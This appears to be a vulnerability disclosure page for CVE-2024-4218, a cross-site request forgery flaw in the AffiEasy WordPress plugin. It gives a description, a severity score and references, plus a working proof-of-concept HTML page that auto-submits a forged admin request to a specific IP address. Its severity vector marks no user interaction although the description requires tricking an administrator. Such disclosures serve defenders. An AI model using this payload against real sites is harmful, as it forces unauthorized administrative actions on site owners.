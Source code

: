 ```yaml
---
layout: page
title: CVE-2024-4218
subtitle: AffiEasy <= 1.1.7 - Cross-Site Request Forgery to Various Actions
---
```

## Description
The AffiEasy plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.1.7. This is due to plugin improperly releasing the tagged and patched version of the plugin - the vulnerable version is used as the core files, while the patched version was included in a 'trunk' folder. This makes it possible for unauthenticated attackers to perform a variety of actions via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 6.5 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N)

## Affected Version
    <= 1.1.7

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://103.189.234.57/wp-admin/admin.php">
      <input type="hidden" name="page" value="affieasy&#45;table" />
      <input type="hidden" name="action" value="duplicate&#45;table" />
      <input type="hidden" name="id" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/browser/affieasy/tags/1.1.6
- https://www.cve.org/CVERecord?id=CVE-2024-4218
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/affieasy/affieasy-117-cross-site-request-forgery-to-various-actions







